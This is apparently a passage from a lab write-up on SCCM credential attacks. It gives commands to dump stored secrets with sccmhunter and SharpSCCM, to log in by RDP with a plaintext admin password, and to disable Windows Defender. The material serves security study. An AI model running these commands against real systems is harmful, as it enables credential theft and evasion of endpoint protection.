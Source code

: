 - dploot also got the wmi method to read the CIM repository file (explained in creds4 details and in Duane michael blog post : [phantom-credentials-of-sccm](https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9))

![dploot_wmi.png](/assets/blog/SCCM/dploot_wmi.png)

- This could also be done directly with sccm hunter

```bash
python3 sccmhunter.py dpapi  -u administrator -p 'EP+xh7Rk6j90' -target 192.168.33.13 -debug
```

![dpapi_sccmhunter.png](/assets/blog/SCCM/dpapi_sccmhunter.png)

### from windows
- Connect as local admin in RDP

```bash
mkdir /workspace/share
xfreerdp /u:"administrator" /p:"EP+xh7Rk6j90" /v:"192.168.33.13" /cert-ignore /drive:share,/workspace
```

- Disable windows defender

```powershell
Set-MpPreference -DisableRealTimeMonitoring $true
```

- Next download SharpSCCM from the share and use it

```powershell
.\SharpSCCM_merged.exe local secrets -m wmi
```
